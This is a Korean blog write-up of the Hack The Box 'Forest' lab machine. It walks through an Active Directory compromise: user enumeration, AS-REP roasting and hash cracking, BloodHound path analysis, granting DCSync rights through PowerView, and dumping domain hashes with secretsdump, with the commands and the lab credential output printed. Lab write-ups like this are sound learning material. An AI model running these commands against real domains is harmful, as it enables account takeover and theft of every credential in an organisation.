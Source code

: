 ```yaml
---
layout: post
title: Hack The Box - Forest
subtitle: Hack the box Forest machine
category: writeup
thumbnail-img: /assets/img/writeup/HTB/forest/pwned.png
tags:
  [writeup, hackthebox, forest, windows, powerview, bloodhound, dcsync, ldap]
author: Hong
---
```


이번에 HTB의 Forest라는 머신을 풀었는데 굉장히 영양가 높은 머신이었고 여러가지 새로운 것들도 배웠기 때문에 포스팅을 작성한다.

이 머신은 easy 난이도라고는 되어있는데 거의 대부분 처음 경험해보는 내용이었던 나에게는 절대 easy하지 않았다.

# 초기진입

## nmap

우선 nmap의 결과부터.

```bash
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2025-03-27 01:08:58Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h26m49s, deviation: 4h02m30s, median: 6m48s
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2025-03-26T18:09:12-07:00
| smb2-time:
|   date: 2025-03-27T01:09:11
|_  start_date: 2025-03-27T01:01:16
```

smb와 ldap이 눈에 들어온다.

smb의 경우 리스트를 보려고 했으나 접속이 안됐다.

ldap으로 변경.

## enum4linux

ldap을 조사할 때 사용하는 툴로써 enum4linux라는 게 있다고 한다.

ldapsearch라는 툴이 이름부터 뭔가 해줄 것 같아서 사용해봤는데 결정적인 유저를 마지막까지 찾아내지 못했다.

enum4linux의 경우 한번에 결정적인 유저까지 찾아냈기 때문에 ldapsearch 보다는 enum4linux가 더 좋은 것 같다.

```bash
enum4lilnux 10.10.10.161

user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

ldapsearch에서는 svc-alfresco라는 유저를 발견하질 못해서 계속 헤맸다.

유저 이름을 알았기 때문에 **impacket-GetNPUsers**라는 툴을 사용해서 Kerberos preauthentication이 설정되어 있지 않은 유저를 찾아낸다.

`impacket-GetNPUsers htb.local/ -dc-ip 10.10.10.161 -usersfile users.txt`

```sh
$krb5asrep$23$svc-alfresco@HTB.LOCAL:93b8c3f3d039482dae56a19dc0a91053$3ddd8d9d301f89dbee8ce4bb022f04ebba5cec410b45aae7ff4e6012e9bfe2f6e13a4aff4dd92108597ba4e27a1f7daebec8d22c4c44eb5a56253fa7c7d83296d879282601f1ca533d7cc4f1cd10ac5224039418981c8a0575f1c909a556344c0007d64eea970f51cc33c8e70117947f4dd32a054cbacfe847532bfea1e3aac49ac93511eebc2318b57901c3dbb181200d62bb710553ea74496c51670a3a8595bbeb58ce1d17599f242685e7e72992c90c6651c1fdd0b742192a09eb004a87d172982fe1d5f0e14e838d2ea6003306a8d205697bce8a685d9e7a1c46f8864820f976bb913248
```

다른 유저들과는 다르게 svc-alfresco의 경우 해쉬값이 나온다.

![hashcat](/assets/img/writeup/HTB/forest/hashcat.png)

찾아보니 18200 모드를 사용하면 크랙킹 할 수 있을 것 같다.

크랙킹하면 **s3rvice** 비밀번호를 획득할 수 있다.

evil-winrm으로 로그인.

# 권한상승

## bloodhound

여기서 또 다른 벽을 느꼈다.

easy 머신임에도 불구하고 bloodhound를 활용해서 풀어야 한다.

bloodhound를 사용하는 방법은 두 가지가 있는데 하나는 sharphound를 활용하는 방법이고 또 다른 방법은 bloodhound-python을 사용하는 방법이다. (pip install bloodhound로 설치가능).

`bloodhound-python -d sequel.htb -u {user} -p {password} -ns {IP}`

bloodhound를 실행하고 파일을 업로드하면 노드를 볼 수 있다.

![bloodhound](/assets/img/writeup/HTB/forest/bloodhound.png)

1. 먼저 이번에 침입 성공한 svc-alfresco를 검색해 노드를 선택한다.
2. owned로 지정한다.
3. shotest paths에서 더 높은 value의 타겟을 찾아본다.

그러면 굉장히 상관관계가 얽혀있는 꽤 복잡한 그래프가 나타난다.

이 그래프를 볼 줄 몰라서 많이 헤맸는데 그래프를 잘 보면 genericall 이라던가 DACL write라던가 핵심적인 키워드들이 써있다.

genericall의 경우 모든 권한을 가지고 있기 때문에 내가 소유했다고 봐도 무방한 듯 하다.

DACL write 권한이 중요한데, 이 권한이 있으면 액세스 권한을 설정 할 수 있다. 이번 머신의 메인 도메인 바로 전 노드인 Exchange Windows Permissions 그룹이 메인 도메인에 대하여 이 권한을 가지고 있기 때문에 DcSync 권한을 유저에 부여할 수 있는 취약점이 존재한다.

## DcSync

easy 머신에서 DcSync까지 나와서 당황했지만 회사에서 본 적이 있었다.

먼저 권한을 부여할 새로운 유저를 만든다.

`net user hong hongtest1234 /add /domain`

그 다음 유저를 Exchange Windows Permissions 그룹에 추가한다.

`net group "Exchange Windows Permissions" /add hong `

(이런것도 svc-alfresco 유저가 어카운트 관리 그룹의 멤버였기에 가능했다.)

그리고 DcSync 권한을 부여하기 위해서 PowerView.ps1을 사용한다.

```powershell
$SecPassword = ConvertTo-SecureString 'hongtest1234'-AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\hong', $SecPassword)
Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity hong -Rights DCSync -Credential $Cred -Verbose
```

이렇게 하면 새로만든 유저에 DcSync의 권한이 부여되기 때문에 나머지는 칼리 머신에서 악용하기만 하면 된다.

```bash
secretsdump.py htb.local/hong:hongtest1234@10.10.10.161
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::...
```

관리자의 해쉬 정보를 얻을 수 있다. DcSync는 언제봐도 놀랍다.

evil-winrm으로 관리자 해쉬를 사용해 로그인 하면 root 플래그도 얻을 수 있다.

# 느낀점

이번 머신이 특히 어려웠던 점은 처음 써보는 툴이 많았기 때문이다.

enum4linux, bloodhound, powerview도 존재는 알아도 제대로 써본적은 없는 툴들이었다.

이번에 어느정도 사용법을 익혔기 때문에 다음에 비슷한 문제는 풀 수 있지 않을까? 싶다.

굉장히 유익한 머신이었다.
